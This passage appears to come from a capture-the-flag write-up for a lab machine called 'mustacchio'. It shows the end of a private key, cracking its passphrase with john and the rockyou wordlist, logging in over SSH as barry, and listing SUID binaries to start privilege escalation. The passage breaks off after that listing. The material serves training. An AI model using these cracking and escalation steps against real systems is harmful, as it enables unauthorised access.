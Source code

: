```
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

cracking passphrase
```
$ python ssh2john.py barry_key > hash

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

urieljames       (barry_key)
```

```
$ chmod 600 barry_key 

$ ssh barry@10.10.190.113 -i barry_key

barry@mustacchio:~$ id

uid=1003(barry) gid=1003(barry) groups=1003(barry)
```

```
cat user.txt

<redacted>
```


## Priv Escalations:

enumerating suid permissions
```
barry@mustacchio:~$ find / -perm -u=s -type f 2> /dev/null

/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

